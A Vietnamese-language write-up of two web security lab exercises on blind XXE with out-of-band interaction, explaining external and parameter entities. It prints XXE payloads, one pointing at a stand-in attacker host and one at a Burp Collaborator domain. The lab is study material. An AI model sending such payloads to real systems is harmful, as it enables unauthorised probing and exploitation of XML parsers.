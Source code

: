 ## Lab 3: Blind XXE with out-of-band interaction

Vì là blind XXE nên chúng ta không thể xem trực tiếp kết quả trong phản hồi. Trong trường hợp này dùng kĩ thuật OOB để tương tác với máy chủ qua DNS

![image-20220522170623659](https://user-images.githubusercontent.com/68894302/169690426-128bf876-4c50-4a4b-9926-3bd1fe4e640d.png)


Sau khi poll kết qả trả về trong một yêu cầu http

![image-20220522170702608](https://user-images.githubusercontent.com/68894302/169690434-a9f7b988-8c1f-4690-b762-1cd6efcc6d11.png)




---

## Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

Trong challenge này một số entities đã bị chặn có thể để tránh cuộc tấn công XXE, kiểm tra các giá trị. Thông thường một cuộc tấn công XXE DTD có dạng như sau

```xml-dtd
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://attacker.com"> ]>
<stockCheck>
	&xxe;
</stockCheck>
```

Giá trị `&xxe;` bị chặn nên trường hợp này có thể sử dụng các thực thể XML đặc biệt để tham chiếu đến những nơi khác trong DTD, đầu tiên khai báo một thực thể tham số XML bao gồm kí tự `%` trước tên thực thể

```xml
<!ENTITY % param "my param entity value"
```

Và các thực thể tham số được tham chiếu trực tiếp bằng kí tự `%` thay vì kí tự `&`

```
%param;
```

Từ đó có thể kiểm tra blind XXE bằng cách kích hoạt ngoài băng

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://fbu05falxlpel9gysa0wc85ksby1mq.burpcollaborator.net"> %xxe; ]>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

![image-20220521073935172](https://user-images.githubusercontent.com/68894302/169690454-4086e049-fb5a-4283-a428-24fdda1f9080.png)
